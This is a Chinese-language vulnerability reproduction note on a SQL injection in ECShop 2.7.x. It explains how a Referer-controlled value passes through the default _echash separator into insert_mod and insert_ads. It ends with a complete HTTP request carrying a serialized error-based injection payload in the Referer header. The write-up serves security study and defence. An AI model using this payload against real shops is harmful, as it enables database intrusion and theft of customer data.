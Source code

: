 ```yaml
---
title: ECShop <= 2.7.x sql注入漏洞
id: zhfly2898
---
```


# ECShop <= 2.7.x sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

## 三、复现过程

### 漏洞分析

先看user.php

![image](../img/2a5872b83dde8e7dc6f7f53a4ab5283e.png)

$back_act变量来源于HTTP_REFERER，我们可控。

assign函数用于在模版变量里赋值

![image](../img/6391bb0d2cab1ea567b85806cb237abd.png)

再看display函数

![image](../img/80c0ed278ee12fa90e9248be8ed537ff.png)

读取user_passport.dwt模版文件内容，显示解析变量后的html内容，用_echash做分割，得到$k然后交给isnert_mod处理，由于_echash是默认的，不是随机生成的，所以$val内容可随意控制。

再看insert_mod函数

![image](../img/47cf221f2b502c8358fbb76f57e83f53.png)

非常关键的一个地方，这里进行了动态调用

$val传入进来用|分割，参数传入进来时需要被序列化

再看include/lib_insert.php中的insert_ads函数

![image](../img/915e11fc2600aeb0f9a343aeafeb782b.png)

可以看到这里直接就能注入了

### payload

```
GET /user.php?act=login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0 
```

![image](../img/1d60deffbaad099969511257c113adc8.png)

## 参考链接

> https://cloud.tencent.com/developer/article/1333449